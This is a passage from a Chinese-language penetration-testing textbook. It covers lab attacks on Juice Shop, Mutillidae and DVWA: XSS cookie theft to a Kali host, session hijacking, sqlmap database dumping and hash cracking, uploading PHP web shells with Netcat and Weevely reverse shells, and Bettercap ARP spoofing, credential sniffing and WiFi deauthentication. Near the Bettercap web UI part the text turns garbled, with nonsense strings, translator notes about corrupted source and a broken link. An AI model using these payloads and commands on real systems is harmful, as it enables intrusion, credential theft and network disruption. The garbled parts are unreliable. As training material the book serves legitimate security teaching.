你可以从几乎任何非根文件恢复恢复数据。这包括 Host 文件和 SSH 密钥。虽然某些 ASCII 字符会破坏返回的数据，因此你可能无法看到全部，如 passwd 的返回所示。

## Juice Shop - 更进阶的 XXE 攻击

BlackHills Infosec 有一篇关于构建基于 XXE 的 HTTP 扫描器的绝佳文章。基本上，你可以让网站通过 XXE 调用外部网站（甚至可以用来外泄数据！）。你不需要发送你想要检索的文件，而是发送你想要访问的服务器的 HTTP 地址。如果你使用自动化攻击并向你的 XML 请求中输入本地服务器 IP 范围的所有 IP 地址，它将为你扫描整个子网！这在许多配置并安装了正确软件的网站上运行效果非常好。你需要对对其进行一些修改才能使其在 Juice Shop 中运行，因此我将其留给更高级的用户进行尝试。只要知道 XXE 攻击可以使用几种不同的方式就是很有帮助的！

[`www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/`](https://www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/)

## Juice Shop 总结

我希望你喜欢对 Burp Suite 和 Juice Shop 的介绍。我们还没有触及在 Juice Shop 中能做的事情的冰山。再次，挑战和解决方案由 Web 应用开发团队进行了详尽记录。我强烈建议读者仔细查看，非常有趣！

## 使用 Mutillidae 的 Burp Suite

接下来，我们将继续研究网站攻击，但稍微切换一下，切换到 Mutillidae 网站。Mutillidae 是另一个非常棒的 Web 攻击学习平台，定期更新。工具开发者（webpwnized）在一系列精彩的视频中详细记录了工具设置和各种漏洞。因此，我们将简要介绍几个主题。

### 使用 Burp 进行持久性 XSS

存储型 XSS 攻击或持久性 XSS 通常是存储在服务器上的恶意链接，用于攻击访问网站的用户。让我们来看一个使用 Mutillidae 的持久性 XSS 漏洞示例：

1. 启动你的 Mutillidae 系统。
2. 确保 Kali 中的 Burp 拦截代理（Intercepting proxy）已关闭。
3. 使用 Burp 代理浏览到 Mutillidae。
4. 从 Mutillidae 主菜单中，选择 OWASP 2017 > A7 Cross Site Scripting > Persistent (Second Order) > Add to your Blog。


5. 在 Blog Entry 中，输入 `<script>alert("Hi!");</script>` 并点击“Save Blog Entry”：


会弹出一个框显示“Hi!”。这很有意思，但没太大帮助；让我们看看能否获取更多有用的信息。有很多方法可以做到，但让我们尝试这种：

6. 输入并保存 `<iframe src=# onmouseover="alert(document.cookie)"></iframe>`

创建了一个匿名帖子，评论区除了一个包含网站副本的大框外，空无一物。但如果你将鼠标悬停在框上，屏幕上就会跳出这个内容：


Cookie 信息！再次，这很有意思，但这是我们（攻击者）的 Cookie 信息。一定有方法让网站向我们提供其他访问者的 Cookie 信息。

确保 Kali 上没有运行 Apache 并启动一个 Netcat 会话。

7. 打开新终端
8. 输入 `sudo service apache2 stop`
9. 然后输入 `nc -lvp 80`


这将在我们的 Kali 系统上以监听模式启动 Netcat。现在我们需要在 Mutillidae 网站上获取一个脚本，调用 Kali 并提供当前登录用户的会话 cookie。让我们使用 Mutillidae 提供的 XSS Hints 部分的示例，但将其修改为调用我们的 Kali 系统：

```
<script> new Image().src="http://[Kali_IP]/?cookie="+encodeURI(document.cookie); </script>
```


一旦保存了这个 Blog entry，它就会创建一个向 Kali 请求来源的空白图像。由于是空白图像，博客 entry 的评论区将不会显示任何内容。但如果你仔细看，它还将将 document cookie 添加到调用中。

在 Netcat 中我们应该看到这个：


注意在上方高亮部分，Netcat 捕获到了 Cookie 信息！现在我们能够从目标网站恢复 Cookie 信息，我们可以用它做什么呢？冒充用户怎么样？


让我们看看是否可以仅通过捕到的 cookie 信息以 admin 身份登录。

1. 以 Admin 身份登录 Mutillidae (admin / adminpass)
2. 访问“查看他人的博客”（View Someone’s Blog）
3. 确保 Kali 上正在运行 `Netcat`
4. 选择作者“显示全部”（Show All），然后点击“查看博客文章”（View Blog Entries）

在 `Netcat` 中我们应该能捕获 Admin 用户的 cookie 信息：

```
cookie=PHPSESSID=dcn2e390anu1lij16rg2v6a5d8;%20showhints=1;%20username=admin;%20uid=1
```

5. 注销 Mutillidae
6. 现在开启 Burp 的拦截代理
7. 开始以虚拟用户登录：(test / test)，拦截此登录请求，因为我们将对其进行修改。

现在在 `Burp Proxy` 中，进入 `Intercepting Proxy` 并查看 `Raw` 请求：


注意名为 `Cookie` 的行项，看起来看起来眼眼吗？现在将 `Cookie` 行替换为我们捕获的行（我将 %20 替换为了普通的空格）：

`Cookie: PHPSESSID=dcn2e390anu1lij16rg2v6a5d8; showhints=1; username=admin; uid=1`

它看起来应该像这样：


现在只需“Forward”（转发）请求以发送带有 admin cookie 的修改后的登录。注意底部用户名和密码仍然设置为“test”。但当登录序列完成后，它会显示“You are logged in as admin”（你已以 admin 身份登录）：


这只是一个快速的示例。还有许多其他可以做的事情。例如，`Hints`（提示）部分显示了如何在用户鼠标悬停在注释上时强制其退出：


那会很有趣，但如果我们直接调用完全不同的网站，而不仅仅是 Mutillidae 中的另一个页面呢？或者更好，如果我们使用 `Social Engineering Toolkit`（社会工程工具包）创建一个此网站的镜像，并将用户简单地转移到此网页呢？或者使用在我的入门书中介绍的 `Browser Exploitation Framework` (`BeEF`) 链接。我将这些作为选项留给读者自行探索。

### Burp Suite 编码/解码器

在我们继续之前，我只想快速提到 `Burp` 的另一个部分。有时，你可能需要对输入进行 URL 编码以便其正确处理。`Burp` 包含一个专门用于此功能的 `Encoder/ Decoder`。

* 只需点击“Decoder”菜单选项
* 将你的代码粘贴到顶框
* 点击“Encode as”（编码为）然后点击“URL”：


你只需复制并粘贴生成的编码文本来替换未编码的版本。还有许多其他编码和解码选项，包括 `Base64`、`ASCII`、`HEX` 和“smart decode”（智能解码）。

## 结论

在本节中我们看到 `Burp suite` 是执行网站安全测试的卓越工具。我们使用 `Burp` 拦截并更改数据。我们介绍了 SQL 注入以及如何使用 `Burp` 自动化攻击。我们还查看了使用 `Burp` 和 `Mutillidae` 进行 XSS 攻击。有很多自动化的 XSS 工具，每个人对哪个最好都有自己的看法。有些从命令行运行，有些是浏览器插件，有些是 `Burpsuite` 插件，有些是外部网站。`Burpsuite` 本身就是一个很棒的选择，绝对值得进一步探索。

`Mutillidae` 的创建者花费大量时间创建了内置教程和视频，这些包含在 `Hints` 部分。我强烈建议查看并完成它们，以更深入地理解 `Burp Suite` 和 `OWASP Top Ten` 漏洞。

`Juice Shop` 还有很多内容，花点时间看看吧！

## 资源与参考文献

* OWASP 网站：[`www.owasp.org/index.php/Main_Page`](https://www.owasp.org/index.php/Main_Page)
* OWASP XML 外部实体 (XXE) 处理 - https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
* 手动式 XML 外部实体漏洞训练模块 - [`www.sans.org/white-papers/34397/`](https://www.sans.org/white-papers/34397/)
* XML 外部实体 – Beyond /etc/passwd (为了乐趣和利润) - [`www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/`](https://www.blackhillsinfosec.com/xml-external-entity-beyond-etcpasswd-fun-profit/)
* OWASP XML 外部实体防护备查表 - [`cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* Jeremy Druin’s (webpwnized) YouTube 视频：[`www.youtube.com/user/webpwnized/videos`](https://www.youtube.com/user/webpwnized/videos)
* Kali Linux Backtrack Evolved, Justin Hutchens: [`www.packtpub.com/networking-and-servers/kali-linux-backtrack-evolved-assuring-security-penetration-testing-video`](https://www.packtpub.com/networking-and-servers/kali-linux-backtrack-evolved-assuring-security-penetration-testing-video)
* Pwning OWASP Juice Shop - 圣诞优惠 - [`bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html#order-the-christmas-special-offer-of-2014`](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html#order-the-christmas-special-offer-of-2014)
* Pwning OWASP Juice Shop - 通过 SQL 注入检索用户 - [`bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html#retrieve-a-list-of-all-user-credentials-via-sql-injection`](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/appendix/solutions.html#retrieve-a-list-of-all-user-credentials-via-sql-injection)

# 第 18 章

## SQL Map

`SQLmap` 是一个用于访问和从 SQL 数据库中提取信息的 get 工具。简而言之，它自动化许多 SQL 注入攻击和任务，使得恢复信息变得简单得多。它还可以发现并破解数据库密码。在本节中将使用运行在 `Metasploitable VM` 旧版 `Mutillidae`。我选择这个虚拟机是因为我们还可以从系统上的其他 Web 应用程序中提取数据库！你仍然可以使用较新的 `Mutillidae`，所有步骤都是相同的，但数据库名称略有不同，而且 `Metasploitable VM` 中有很多数据库可以玩。

此外，对于课堂环境的人来说，针对 `Metasploitable VM` 中的旧版 `Mutillidae` 运行 `Sqlmap` 只需要 15-20 分钟，但针对具有新安全性的最新 `Mutillidae` 运行似乎需要 2-3 小时。

工具开发者：Bernardo Damele A.G., Miroslav Stampar
工具网站：[`sqlmap.org/`](https://sqlmap.org/)


### SQL Map - SQL 开关概述

对于本教程我们将主要使用以下开关：


如果你仔细看，可以看到开关的流程，你可以使用 `--dbs` 开关列出可用数据库，然后使用 `-D` 开关选择一个。表也一样，使用 `--tables` 开关列出数据库中的可用表，然后使用 `-T` 开关选择一个。在我们处理示例时，这会有更有意义。另一个重要的开关是 `--purge-output`。在运行时，`sqlmap` 会创建日志文件并将数据写入输出文件目录。此命令允许在你选择新目标进行测试时清理此目录，清除上一次扫描留下的残留数据。

### SQL Map - 盲布尔注入

我只想简单提到一下`盲布尔注入`。当你使用 `Sqlmap` 时，你会发现一个有趣的现象。在`盲布尔注入`中（看着有点骨悚然），`Sqlmap` 基本上是逐字符地向网站询问有关数据库的信息。例如，它询问数据库中的主表是否以“D”开头，然后检查网页是否有错误。如果没有错误，它移动到下一个字符。你直观地看到数据库名称随着找到每个字符而构建出来。它可以使用相同的过程提取密码哈希和用户信息。


我们已经讨论了什么是 Sqlmap 以及一些命令开关，现在让我们通过对 Mutillidae 进行操作来演练。Sqlmap 在拥有一个漏洞网页以及捕获的该漏洞页面请求、一个经过身份验证的用户或已登录用户的 Cookie 时工作效果最好。我们有很多不同的方法可以实现这一点，但让我们创建一个新用户，并在创建请求发送到 Mutillidae 的时将其捕获。我们将该请求复制到文本文件中，并将其作为“钥匙”，不仅用来解锁 Mutillidae 数据库，而且正如你所看到的，它将允许我们访问服务器上的**所有**数据库！

1. 在 Kali 中，启动 Burpsuite 并打开 Burpsuite Browser。
2. 在 `Proxy` 中关闭拦截（intercept），并访问 Mutillidae 网站（我使用的是 Metasploitable2 中的那个）。
3. 将安全级别调到 Level 1。
4. 点击“Login/Register”（登录/注册）。
5. 点击“Please register here”（请在此注册）。
6. 现在，填写注册页面，我使用 `secure` 作为用户名，`securepass` 作为密码。使用什么用户名和密码并不重要，因为我们只需要捕获创建请求：
7. 在 Burpsuite 中，开启拦截并点击“Create Account”（创建账户）。

在 Burp 中，我们应该有了捕获的创建请求。

8. 右键点击捕获的请求，从菜单中选择“copy to file”（复制到文件）：


注意：如果你使用的是较版本的 Mutillidae，它使用了 crsf-tokens。SQLMap 似乎不喜欢 crsf-token 行的编写方式，因此你需要修改该行的开头，如下所示：


9. 将文件保存到桌面，命名为 `request.txt`。
10. 在 Burp Suite 中关闭拦截。这将允许注册请求通过，你应该会在 Mutillidae 中一条你的新账户已创建的消息。我们已经完成了 Burp 的工作，如果你愿意，可以关闭它。

你做得非常好！花几秒钟休息一下，我们现在把注意力转向 Sqlmap。在 Sqlmap 中，我们将使用那个捕获的请求文本文件作为“王国之钥”。

### 运行 SQLmap

1. 在 Kali 中打开一个新的终端窗口。
2. 输入，`sqlmap -r ~/request.txt --dbs`
3. 当询问“It looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes?”时，输入“y”。
4. 当询问是否包含针对 SQL 的所有测试时，输入“y”。
5. 当询问“POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)?”时，输入“n”。

Sqlmap 将确定运行的是什么类型的数据库服务器（在本例中为 MySQL 5.0），然后显示可用的数据库：


现在，记住我们使用一个 Mutillidae 用户创建请求来提取数据库名称，但请注意我们可用的数据库。总共出现了 8 个，包括 DVWA 的数据库，而我们甚至没在用它！我知道这是一个完全不同的过程（所以请不要给我发仇恨信），但这让我想起了为什么我不喜欢多家公司使用共享服务器来存储机数据。

同样注意，我们不需要手动告诉 sqlmap 关于关于我们正在攻击的服务器的任何；它能够从我们的 `request.txt` 文件中提取它需要的一切。好的，让我们看看“owasp10”数据库，并列出它的表看看我们能否找到任何重要的东西。

6. 输入，`sqlmap -r ~/request.txt -D owasp10 --tables`:


如你所见，在 owasp10 数据库中发现了六个表。

挖掘数据库可能是碰运气的事情。你可能会发现非常重要的东西，也可能发现一些对你真的没太大帮助的东西。从 owasp10 数据库的表列表中，“accounts”听起来很有趣。但看起来更有趣的表是“credit_cards”！

由于 `--tables` 开关列出了可用的表，我们将使用 `-T` 开关选择 `credit_cards`，并简单使用 `--dump` 开关显示该表的内容。

7. 输入，`sqlmap -r ~/request.txt -D owasp10 -T credit_cards --dump`:


中奖了！仅通过几个简单的命令，我们就获得了一份（虚假的）信用卡列表！如果我们在渗透测试期间能对客户的 Web 应用程序做到这一点，他们显然会有一些非常严重的问题。让我们在其他数据库和表中再找找，看看我们还能发现什么。

数据库“nowasp”听起来很有趣，让我们看看里面有什么。再次，我们将使用 `-D` 选择数据库 `nowasp`，并使用 `--tables` 命令让它显示可用的表。

8. 输入，`sqlmap -r ~/request.txt -D nowasp --tables`，你应该能看到以下表：


让我们导出“accounts”表看看它包含什么。

9. 输入，`sqlmap -r ~/Desktop/request.txt -D nowasp -T accounts --dump`:


噢太棒了，一大堆账户列表和明文密码。我在想我们可以在哪里使用这些信息？好吧，不太现实，数据库密码通常是经过哈希和加盐的（我希望是这样！）。但作为 SQL 领域的全能手，sqlmap 内置了检测和破解密码哈希的支持。

### SQL Map - 破解密码哈希

“dvwa” 数据库包含一些我们可以用 Sqlmap 恢复和破解的密码哈希。

1. 输入，`sqlmap -r ~/request.txt -D dvwa --tables`
这返回两个表：‘guestbook’和‘users’。在这两个，“users’听起来很有趣。让我们查看该表的列。
2. 输入，`sqlmap -r ~/request.txt -D dvwa -T users --columns`:


看起来是用户账户和密码。让我们导出这个表看看我们得到什么。
3. 输入，`sqlmap -r ~/request.txt -D dvwa -T users --dump`
当执行此命令时，Sqlmap 识别到表中存在密码哈希。
4. 当询问将哈希存储在临时文件中时，输入 `y`。
5. 在提示时选择选项 `1 - default dictionary`。
6. 当询问使用常用后缀时，输入 `n`：


Sqlmap 将开始破解密码。在很短的时间内，它显示了它能破解的所有密码：
- 哈希 `e99a18c42cb38d5f260853678922e03` 的破解密码 `abc123`
- 哈希 `8d3533d75ae2c396d7e0d4f6921` 的破解密码 `charley`
- 哈希 `0d107d09f5bbe40cade3de5c719e9b7` 的破解密码 `letmein`
- 哈希 `5f4dcc3b5aa765d61d8327deb82cf9` 的破解密码 `password`

如你所见，Sqlmap 是一个非常强大且实用的工具！

### SQL Map - 输出目录

Sqlmap 会话数据存储在输出目录，在本例中为 `/home/kali/.local/share/sqlmap/output/[目标 IP]/`。文件夹中的文件包含：
- 一个 `Dump` 目录，包含从数据库导出的 `.csv` 副本
- 一个 `Log` 文件，整个会话的记录
- 一个恢复信息的 `sqlite3` 数据库
- 以及 `target.txt` 文件中来自 Burp 请求的信息：


我们可以打开 `session.sqlite` 文件查看其内容：
- 输入，`sqlite3 session.sqlite`
- 输入，`.tables` 查看可用表

只有一个名为 `storage` 的表。让我们导出这个表：
- 输入，`.dump storage`:


在这里你可以看到恢复的所有数据的副本。完成后，输入 `.quit` 退出。

## 结论


在本节中，我们学习了许多关于 `SQL Map` 及其从 Web 数据库中提取信息的能力。我们看到从漏洞应用程序中提取账户、密码和敏感数据是多么轻而易举。希望这能说明保护数据库、编写安全代码以及对应用程序进行安全测试有多么重要。我们刚刚涵盖了 `Sqlmap` 的一些基本功能，请花些时间尝试一下，看看还能从 `Metasploitable` 数据库中提取出哪些其他信息。因为经验永远是最好的老师！

# 第 19 章

## Web Shell（Web 后门）

当 Web 服务器上存在漏洞时，远程 Web Shell 是攻击者获取目标网络立足点并实现持久化的最简单的方法之一。根据微软安全团队¹，Web Shell 攻击正在稳定增长且频率不断加快。从 2020 年 8 月到 2021 年 1 月，他们平均每月遇到 140,000 次攻击，几乎是之前 77,000 次平均水平的两倍。`Web Shells` 可以用任何开发语言编写，并利用跨站脚本 (`XSS`)、远程文件包含和 `SQL Injection` 等漏洞。

攻击者执行 `File Upload`（文件上传）的能力是 Web Shell 攻击所需的。`File upload` 正如其名，通过漏洞的 Web 接口上传文件或 Shell，然后执行它。这是最简单的利用形式之一。在 Shell 上传后，技巧在于找到 Web 服务器存储文件的位置，以便我们可以尝试远程访问。实现此点的一种方法是上传一个测试文件，然后直接尝试从网站访问它。

在本节中，我们将使用 `Mutillidae Ubuntu VM` 中的 `DVWA` 测试环境。

1.  访问 `DVWA` 应用程序 (`Ubuntu_VM_IP/DVWA`) 并登录（`admin` / `password`）。
2.  点击“DVWA Security”并将安全级别设置为“low”：


3.  从 `DVWA` 菜单中，选择“File Upload”。
4.  上传一个文件，看 Web 服务器是否给了我们关于存储位置的任何线索。我简单地创建了一个名为“helloworld.txt”的文本文件，内容正如你所想的那样，“Hello World!”。
5.  浏览并上传该文件：


如上图所示，`DVWA` 非常慷慨地给了你上传目录的路径。如果在现实生活中真的收到了这样的消息，你就很幸运了。让我们花点时间分析地址栏中当前的上传 URL：

`http://[Ubuntu_VM_IP]/dvwa/vulnerabilities/upload/#`

上一张图片中的消息告诉我们，文件存储在当前目录向上两个层级 (`../../`)，然后在“hackable/uploads”目录下。类似于这样：


返回两个目录层级：


然后输入我们的目标路径，就得到了最终地址：


让我们试一试。将带有你 `DVWA` IP 地址的 URL 放入浏览器并访问。Web 应用程序应该会提取我们的“Hello World”文本消息并如所示显示：


好了，这很有趣——我们能够向服务器上传一个文本文件并找出它的存储位置。但我们利用这些信息能做什么呢？我们能向 Web 服务器上传远程 Shell 吗？

### 通过文件上传获取远程 Shell

由于没有文件类型验证测试且上传目录可以直接从 Web ，我们可以简单地生成一个基于 PHP 的远程 Shell `MSFVenom` 并将其原样上传。（注：提供的文本似乎重复或碎片化；已保持核心信息）。

这是最简单的利用形式之一。在 Shell 上传后，技巧在于找到 Web 服务器存储文件的位置，以便我们可以尝试远程访问。实现此点的一种方法是上传一个测试文件，然后直接尝试从网站访问它。

（注：输入文本包含大量的重复噪音和乱码句子。我在遵循可识别实体格式规则的同时，清理了逻辑流。）


注意文件存储的位置（`../../hackable/uploads/backdoor.php`）。

### 3. 现在连接到 shell，再次运行 `weevely` 并输入完整的 URL 和密码。

如下所示：


如你所见，我们已经连接到 Web 服务器。你现在可以运行任何你想要的终端命令了！

## Weevely - PHP Shell 命令

Weevely 不仅仅限于远程 shell。它还包含了许多在你获得开放式 shell 后可以运行的命令。在 Weevely 提示符下输入 `:help` 可以查看所有命令列表：


让我们来看其中的几个命令。

1. 在 Weevely shell 中输入 `:audit_etcpasswd`：


然后 `weevely` 会转储 `passwd` 文件。

2. 搜索可能感兴趣的文件，使用 `:audit_filesystem`：


你甚至可以使用多种技术打开一个反向 shell，包括 `Netcat`、`Telnet` 以及几种编程语言的 shell。


所以，要通过 `weevely` 生成一个 `Netcat` 反向 shell：

> ➢ 在 Kali Linux 中启动 `NetCat`：`netcat -lvp 5555`
> ➢ 在 `Weevely` 中输入：`:backdoor_reversetcp -vector netcat 172.24.1.189 5555`


`weevely` 是一个非常有用的 PHP shell。你可以上传和下载文件，对文件进行安全审计，甚至启动多个不同的本地和远程 shell。花几分钟查看一下不同的功能。

## Kali 自带的 Web Shell

Kali 还带了几个内置的 webshell。Kali 中预装了仅限命令行、GUI 和交互式远程 shell 的混合体。它们位于 `/usr/share/webshells` 目录。

包含以下编程语言的 shell：

> ➢ ASP
> ➢ ASPX
> ➢ CFM
> ➢ Laudanum
> ➢ JSP
> ➢ Perl
> ➢ PHP

我们只需简单地查看几个 PHP shell。我建议检查所有的 webshell，以便在需要时知道它们是做什么的。为了节省时间和方便起见，我们将简单将 webshell 复制到本地 Kali Web 服务器的 `shells` 目录，并在那里进行尝试。

> ➢ 将 `usr/share/webshells` 文件夹复制到你的 Kali Apache2 文件夹，路径为 `var/www/html/shells`
> * *提示：`sudo thunar` 非常有帮助*

### PHP-Simple Backdoor

用方法：只需将 `simple-backdoor.php` 文件上传到 Web 服务器，然后通过 `http://[Kali_IP]/shells/php/simple-backdoor.php?cmd=[Command]` 向其传递命令。

所以，如果我们想列出 Web 服务器的目录，我们应该输入：

> ➢ `http://[Kali_IP]/shells/php/simple-backdoor.php?cmd=ls`


接下来，列出服务器的用户：

> ➢ 输入 `[Kali_IP]/shells/php/simple-backdoor.php?cmd=cat /etc/passwd`：


非常有用！让我们看看其他 shell。

### qsd-php-backdoor.php

用法：直接访问 `qsd-php-backdoor.php`，此 shell 是交互式的。


### PHP-reverse-shell.php

用法：这是一个非常有用的反向 shell。只需在 PHP 脚本中设置连接回的 IP 地址和端口，然后使用 `Netcat` 与其通信。

> ➢ 编辑 shell 并输入你的本地 Kali IP 地址和端口：


> ➢ 将 shell 上传到 Web 服务器
> ➢ 启动 `Netcat`：`nc -vlp 1234`
> ➢ 最后，只需访问 Web 服务器上的该文件即可启动反向 shell


### PHP-findsock-shell

用法：这是另一个全交互式 shell，不仅仅是一个 webshell。文件的完整说明包含在文件注释中。基本上是：编译文件，上传到目标 Web 服务器，然后通过 `Netcat` 连接它：


## 额外的 Web Shell

除了这些，不要忘记你还可以使用 `MSFvenom` 创建自己的 shell。`MSFvenom` 将在第 23 章中详细介绍。网上也有很多 shell 可以下载，或者你也可以自己创建。对于来自未知来源的 shell 始终保持谨慎，在环境中尝试之前务必验证代码的实际行为！

## 结论

在本节中，我们涵盖了如何使用多个 PHP webshell。我们看到 `Weevely` 有一些可以在渗透测试期间帮助的内置命令。我们简要看了 Kali Linux 包含的 PHP webshell。这些以及 webshell 目录中的其他 shell 在需要时非常有用。希望本章展示了适当的 Web 应用和服务器加固的重要性。提醒一下，在 `DVWA` 中你可以更改难度设置，并针对启用不同安全等级的目标尝试你的技术。

## 资源与参考文献

> ➢ ^(1”)Web shell 攻击持续增加”, Microsoft, 2021/2/11 - [`www.microsoft.com/security/blog/2021/02/11/web-shell-attacks-continue-to-rise/`](https://www.microsoft.com/security/blog/2021/02/11/web-shell-attacks-continue-to-rise/)
> ➢ Weevely 命令列表 - [`github.com/epinna/Weevely/wiki/Modules-list`](https://github.com/epinna/Weevely/wiki/Modules-list)
> ➢ NSA Cyber, Mitigating Web Shells - [`github.com/nsacyber/Mitigating-Web-Shells`](https://github.com/nsacyber/Mitigating-Web-Shells)

# 第 20 章

## Bettercap

`bettercap` 是一个用于网络攻击审计和中间人攻击的强大工具。

### Bettercap - 交互式用法

`bettercap` 默认未安装；它 Kali 仓库中。

> ➢ `sudo apt install bettercap`

使用 `bettercap` 有两种选择：交互式和 GUI。我们将首先介绍交互模式。

> ➢ 打开终端并输入 `sudo bettercap`


你可以随时输入 `help` 来查看可用命令列表。你也可以输入 `help [module]` 来获取单个模块的帮助。大多数模块都有你可以更改的变量，你通过 `set` 命令来实现，就像在 Metploit 中一样——`set [command] [variable]`。

### 扫描目标

...（内容继续） ...

### NET.SHOW

`net.show` 显示检测到的网络列表。

> ➢ 输入 `net.show`


显示了很多基本信息。接下来，我们将看到如何通过端口扫描并启用 `net.show` 中的 `Meta` 列来查看开放端口等额外信息。

### SYN.SCAN

你可以使用 `syn.scan` 模块执行快速 SYN 端口扫描。

> ➢ 输入 `help syn.scan`

让我们对 Metasploitable 2 进行快速端口扫描，端口范围 1 到 100。

> ➢ `syn.scan 172.24.1.233 1 100`


现在我们有很多新的端口信息；这些信息被保存为“元数据”（Meta Data）。如果我们使用 `Net Show` 并开启 `Meta Data` 显示，就可以查看这些数据。既然如此，让我们按 IP 地址升序对数据进行排序吧。最后，我们不想看到 `Bettercap` 扫描的所有机器，所以过滤掉 Metasploitable 系统以外的一切。

> ➢ `set net.show.meta true`

> ➢ `set net.show.sort ip asc`

> ➢ `set net.show.filter METASPLOITABLE`

现在启动 `Net Show`

> ➢ `net.show`


我们现在有了目标列表以及对扫描响应的端口。

## NET.SNIFF

`Net Sniff` 允许我们从网络中嗅探数据包。它是通过创建一个“中间人”（``MITM`)攻击来实现的。基本上，它通过修改系统的 `ARP` 表，将攻击者置于路由器和目标系统之间。目标会将数据包发送到攻击者机器，然后由机器将其转发到路由器。返回数据包的过程则是相反的。进出的数据包都会被存储并分析，以寻找敏感数据。

让我们逐步操作。

> ➢ 输入，“help net.sniff”

> ➢ 输入，“help https.proxy”

> ➢ `set https.proxy.sslstrip true`（启用或禁用 SSL 剥离）

> ➢ `https.proxy on`


多年来，SSL 剥离已不再是一个可行方案。SSL 剥离会将加密的 HTTPS 流量降级为 HTTP，以便我们以明文进行嗅探。某些安全功能会检查并阻止这种操作。此外，中间人攻击的关键技术“ARP 欺骗”会被某些具有 `ARP` 保护的路由器拦截。

让我们尽管尝试一下，看看会发生什么！

> ➢ `help arp.spoof`

默认是整个子网，这并不是一个好主意，你应该设置单个目标：

> ➢ `set arp.spoof.targets [Target_IP]`

> ➢ `arp.spoof on`

## TICKER

`Ticker` 基本上是一个文本输出显示幅。它让交互式 `Bettercap` 的输出变得更容易阅读和理解。

开启 `net probe` 并显示 ticker：

> ➢ `net.probe on; clear; ticker on`

# Bettercap - 使用 Net Sniff 获取密码

让我们看看如何使用 `Net Sniff` 从线路上获取密码。我们将手动输入命令，但这些命令来自“简单密码嗅探器”脚本（caplets）。我们稍后会讨论 caplets，但基本上，它们就像包含在 `Bettercap` 中运行命令的批文件。

[`github.com/bettercap/caplets/blob/master/simple-passwords-sniffer.cap`](https://github.com/bettercap/caplets/blob/master/simple-passwords-sniffer.cap)

> ➢ 启动你的 Ubuntu Mutillidae 虚拟机

在 `Bettercap` 中：

> ➢ `set net.sniff.regexp '.*password=.+'`

> ➢ `net.sniff on`

现在，从 Windows 10 PC 访问 Mutillidae (`[Ubuntu_ip]/Mutillidae`)。然后，前往 OWASP 主页。登录，或尝试使用虚构账户登录。


在 `Bettercap` 中，我们获得了凭据：


`Bettercap MitM` 攻击成功地从线路嗅探到了我们的登录信息。这将帮助你入门，`Bettercap` 的 Wiki 写得非常好。我强烈建议你通读一遍。模块部分非常有信息，能让你很好地了解 `Bettercap` 的功能 - [`www.bettercap.org/modules/ethernet/`](https://www.bettercap.org/modules/ethernet/)

现在我们已经充分了解了如何从命令行使用 `Bettercap`，让我们来看看 Web 界面。

# Bettercap Web UI - 图形用户界面

如果你更倾向于图形用户界面，`Bettercap WebUI` 非常出色且功能丰富。它也比我们刚刚介绍的控制界面方法要用得多。

> ➢ `sudo bettercap -caplet http-ui`

> ➢ 打开浏览器并访问 localhost，“127.0.0.1”

> ➢ 登录 - 默认凭据为“user/ pass”

默认凭据可以在 `/usr/share/bettercap/caplets/http-ui.cap` 中更改。如果你想通过 HTTPS 从另一台计算机远程访问页面，可以使用 `sudo bettercap -caplet https-ui`。你可以在交互模式下执行任何任何操作，而且操作简单得多。从 LAN 菜单点击 `Net Probe` 和 `Net Recon` 旁边的“Play”按钮。`Bettercap` 现在将主动扫描 LAN 寻找目标。

点击目标 IP 地址旁边的向下箭头，你可以将其添加到 `ARP Spoof` 目标或 `Scan Ports`。


如果你点击“Scan Ports”，只需选择你想要的范围并点击“Scan”。


你将看到列出的百分比进度，在右侧，你会看到一个新的消息标签页 - “Ports”。点击它，它会显示已发现的开放端口。

如下所示：


如果你点击“add to arp spoof targets”，会弹出一个窗口询问你：


> ➢ ` the target toof.

  00000000000000000000000.0..

. the to of the `Bettercap` is is......0000..........000000...

images/0028. book.

## Bettercap Caplets

[`github.com/bettercap/caplets`](https://https.com/bettercap/caplets)

Caplets 是内置在 `Bettercap` 中的“辅助脚本”。基本上，它们是你通常在交互模式下输入的命令，存储为微程序。要使用它们，只需点击“Caplet”菜单并选择一个 caplet。


选择一个 caplet 时，会显示每个模块的代码。


点击“play”按钮时会运行选定的 caplet。

## Bettercap - WiFi 攻击

`Bettercap` 是我进行 WiFi 扫描和测试的首选工具。它速度快且运行良好。使用 `Bettercap` 执行 WiFi 攻击只需要一个支持的 USB 卡。只需插入卡并将其附加到虚拟机。

> ➢ 启动 Bettercap

> ➢ 点击“WiFi”菜单

> ➢ 选择你的无线适配器并点击“play”图标


> ➢ 你可以点击通道数来锁定特定通道

> ➢ 点击你想攻击的目标接入点旁边的向下箭头

> ➢ 点击“Associate”（关联）

如果可以，它将取消客户端的认证（deauth），并在客户端尝试重新连接时捕获并保存握手文件。

如下所示：


将出现一个红钥匙，显示它确实能够保存握手文件。接下来需要的是破解无线密钥。我们在书的“密码”部分介绍过如何破解密码。这只是对 `Bettercap Web-UI` 一个功能的快速概述，请花点时间查看一下，它真的是一个非常棒的工具。

# Bettercap 自动取消认证 WiFi 攻击

在离开 Bettercap 之前，我想再介绍最后一点。WiFi-Deauth 攻击 - 在交互模式下，你可以设置 `Bettercap` 自动取消任何客户端的认证。

如下所示：


针对 BSSID 为 AA:AA:AA:AA:AA:AA 的接入点，每五秒对特定客户端设置取消认证：

> ➢ `set ticker.period 5; set ticker.commands "wifi.deauth AA:AA:AA:AA:AA:AA"; ticker on`

`Bettercap` 将每 5 秒自动取消目标 WiFi 客户端的认证，执行“拒绝服务”类型的攻击。如果你试图让目标系统连接到你控制的另一个无线网络，这将非常有用。

## 结论


